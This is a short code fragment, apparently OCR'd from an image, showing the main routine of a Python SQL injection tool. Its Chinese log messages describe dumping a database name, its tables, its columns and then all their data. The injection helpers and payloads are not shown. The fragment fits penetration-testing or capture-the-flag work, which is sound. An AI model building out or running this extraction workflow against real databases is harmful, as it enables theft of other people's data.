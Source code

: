 ```
if __name__ == "__main__":
    print("[*] Step1: 爆当前数据库名")
    db = get_database()
    print(f"[OK] 当前数据库: {db}")

    print("\n[*] Step2: 爆表名")
    tables = get_tables(db)
    print(f"[OK] 表: {tables}")

    for t in tables:
        print(f"\n[*] Step3: 爆列名 in {t}")
        cols = get_columns(t)
        print(f"[OK] {t} 的列: {cols}")

        for c in cols:
            print(f"\n[*] Step4: 爆数据 {t}.{c}")
            rows = get_data(t, c)
            print(f"[OK] {t}.{c} 数据: {rows}")

```

